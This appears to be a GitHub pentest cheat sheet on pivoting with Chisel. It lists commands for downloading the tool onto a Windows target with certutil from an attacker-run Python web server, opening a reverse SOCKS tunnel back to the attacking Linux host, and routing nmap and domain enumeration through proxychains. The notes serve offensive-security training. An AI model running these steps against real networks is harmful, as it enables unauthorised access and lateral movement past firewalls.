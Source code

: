 --- ---

<h2>Top Commands</h2>

```Terminal
L --> Install Chisel (chisel_VERSION_linux_amd64.gz) ---> https://github.com/jpillora/chisel/releases/tag/v1.7.7

L --> Launch python webserver (sudo python3 -m http.server 80) and transfer the windows Chisel file to the target machine

W --> Install Chisel (chisel_VERSION_windows_386.gz (32 bits)) ---> https://github.com/jpillora/chisel/releases/tag/v1.7.7 (chose the 32 bits or 64 bits depending on the version of the windows machine)

W --> Download the Chisel file from the python server (certutil -urlcache -split -f http://IP/chisel.exe)

L --> Modify proxychain to receive the client socks traffic (sudo nano etc/proxychains4.conf) and coment the sock4 and write under (sock5 127.0.0.1 1080)

L --> Make the Chisel (Linux version) executable (chmod +x file)

L --> Launch Chisel server (./chisel server -p 8000 --reverse)

W --> Launch Chisel client (chisel client IP(Linux):8000 R:socks)

L --> Use proxychain before any comment to use the traffic from the target machine (EX: nmap to check the domain of this windows machine, etc...)
```

- **L**         ---> Attacking Machine (Linux)
- **W**       ---> Target Machine (Windows)

---

<h2>What is Chisel</h2>

Chisel let you connect to the target machine withc is part of an active directory and simply process the traffic via proxychain on the attacking machine. this let you then enumerate the target machine and also the domain associated with it trought your own linux machine.

- Original definition 
	- Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

Tutorial: https://youtu.be/dIqoULXmhXg
More information: https://github.com/jpillora/chisel

[![overview](https://camo.githubusercontent.com/6209fb99bc6edcb2341900468f78b09f03d0be74e03b48e49beb87c52b55362c/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)](https://camo.githubusercontent.com/6209fb99bc6edcb2341900468f78b09f03d0be74e03b48e49beb87c52b55362c/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)